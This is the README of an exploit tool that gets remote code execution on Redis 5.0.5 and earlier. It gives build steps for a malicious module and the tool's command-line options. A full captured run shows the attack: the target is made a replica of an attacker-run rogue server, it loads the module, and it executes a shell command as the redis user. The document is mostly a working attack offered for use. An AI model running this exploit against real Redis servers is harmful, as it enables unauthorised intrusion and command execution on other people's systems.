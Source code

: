 # Redis Rogue Server

Forking and refactoring from <https://github.com/n0b0dyCN/redis-rogue-server>

A exploit for Redis(<=5.0.5) RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

## Requirements

Python 3.x

## Usage

Compile exploit:

``` bash
cd RedisModulesSDK/exp/
make
```

Then, exp.so is in `RedisModulesSDK/exp.so`.

Help:

```
➜ python redis-master.py -h

usage: redis-master.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                       [-c COMMAND] [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -c COMMAND, --command COMMAND
                        Command that you want to execute
  -a AUTH, --auth AUTH  redis password
```

Execute command:

```
➜ python redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"

>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$13\r\n*.*.*.*\r\n$4\r\n8888\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'PING\r\n'
>> receive data: b'REPLCONF listening-port 6379\r\n'
>> receive data: b'REPLCONF capa eof capa psync2\r\n'
>> receive data: b'PSYNC 7cce9210b3ad3f54043ce1965cda506bd26b0224 1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b'$49\r\n\x08uid=999(redis) gid=999(redis) groups=999(redis)\n\r\n'
uid=999(redis) gid=999(redis) groups=999(redis)

>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
>> receive data: b'+OK\r\n'
```

Screenshot:

![](1.png)

## Thanks

* [RicterZ](https://github.com/RicterZ)'s redis exec module: <https://github.com/RicterZ/RedisModules-ExecuteCommand>
